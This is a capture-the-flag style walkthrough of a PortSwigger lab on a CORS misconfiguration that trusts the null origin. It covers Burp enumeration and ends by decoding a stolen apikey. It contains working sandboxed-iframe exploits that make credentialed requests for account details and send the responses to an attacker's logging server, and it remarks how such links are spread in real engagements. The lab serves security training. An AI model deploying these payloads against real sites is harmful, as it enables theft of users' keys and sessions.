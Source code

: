### CORS Vulnerability With Trusted Null Origin Lab
#### Entities
Asset: https://0a670032044b5555803fcb6d009700d4.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. Then create a New Scan of Crawl and Audit - Balanced on `/` route and add given credentials `wiener:peter` for exploring the application authenticated. View `/` route source page and inspect the page and all embedded links via a script.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a670032044b5555803fcb6d009700d4.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.

![Enumeration](01-enumerate-index-route.png)  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain, then null and observe the response reflected the `Access-Control-Allow-Origin` null value. 

![Exploration](02-explore-null-as-origin.png) 

Now exploit yourself while logged in with the below script.

#### Exploitation
Now exploit yourself while logged in with the below script using the iframe sandbox attribute to simulate null origin.
```shell
<html lang="en">
<body>
  <iframe sandbox="allow-scripts" srcdoc="
    <script>
      async function exploitCORS() {
        const appURL = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net/accountDetails';
        const exploitServer = 'http://localhost:8000';
        const response = await fetch(appURL, { credentials: 'include' });
        const data = await response.json();
        fetch(exploitServer + `/?log=${JSON.stringify(data)}`);
      }
      exploitCORS();
    </script>
  "></iframe>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post.  
```shell
<html lang="en">
<body>
  <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
  <script>
    var appServer = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net'
    var exploitServer = 'https://exploit-0ace0046041055ef8007caf8011c0096.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
  "></iframe>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](03-exploit-null-as-origin.png) 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](04-exfiltrate-null-as-origin-spoils.png) 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22SeXyl9sj6fIzmk04GGkz7MBPDlfmgDtv%22,%20%20%22sessions%22:%20[%20%20%20%20%22Q8Vn273xIb5fPY7NWmQHW1a1o7SXuJaz%22%20%20]%7D' | jq . | tee cors-vulnerability-with-trusted-null-origin-spoil.json
```
![Solution](05-lab-solution.png)   

#### Resources
- https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
- https://github.com/knoxknot/portswiggerlabs/tree/main/cors/02-cors-vulnerability-with-trusted-null-origin
